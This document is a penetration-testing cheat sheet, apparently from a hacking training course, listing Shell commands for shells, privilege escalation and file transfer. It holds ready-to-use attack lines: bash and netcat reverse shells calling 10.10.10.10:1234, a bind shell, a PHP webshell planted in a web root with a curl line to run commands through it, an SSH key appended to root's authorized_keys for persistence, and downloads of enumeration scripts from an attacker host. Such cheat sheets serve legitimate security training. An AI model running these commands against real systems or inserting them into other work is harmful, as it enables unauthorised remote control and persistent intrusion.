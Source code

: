 ### Using Shells

#### Send a reverse shell from the remote server
```Shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

#### Another command to send a reverse shell from the remote server
```Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

#### Start a bind shell on the remote server
```Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Connect to a bind shell started on the remote server
```Shell
nc 10.10.10.1 1234
```

#### Upgrade shell TTY (1)
```Shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Upgrade shell TTY (2)
`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice

#### Create a webshell php file
```Shell
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

#### Execute a command on an uploaded webshell
```Shell
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

### Privilege Escalation

#### Run linpeas script to enumerate remote server
```Shell
./linpeas.sh
```

#### List available sudo privileges
```Shell
sudo -l
```

#### Run a command with sudo
```Shell
sudo -u user /bin/echo Hello World!
```
These types of commands can be found on GTFOBins

#### Switch to root user (if we have access to sudo su)
```Shell
sudo su -
```

#### Switch to a user (if we have access to sudo su)
```Shell
sudo su user -
```

#### Create a new SSH key
```Shell
ssh-keygen -f key
```

#### Add the generated public key to the user
```Shell
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

#### SSH to the server with the generated private key
```Shell
ssh root@10.10.10.10 -i key
```

### Transferring Files

#### Download a file on the remote server from our local machine
```Shell
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

#### Transfer a file to the remote server with scp (requires SSH access)
```Shell
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

#### Convert a file to base64
```Shell
base64 shell -w 0
```

#### Convert a file from base64 back to its original format
```Shell
echo f0VMR...SNIO...InmDwU | base64 -d > shell
```

#### Check the file's md5sum to ensure it converted correctly
```Shell
md5sum shell
```
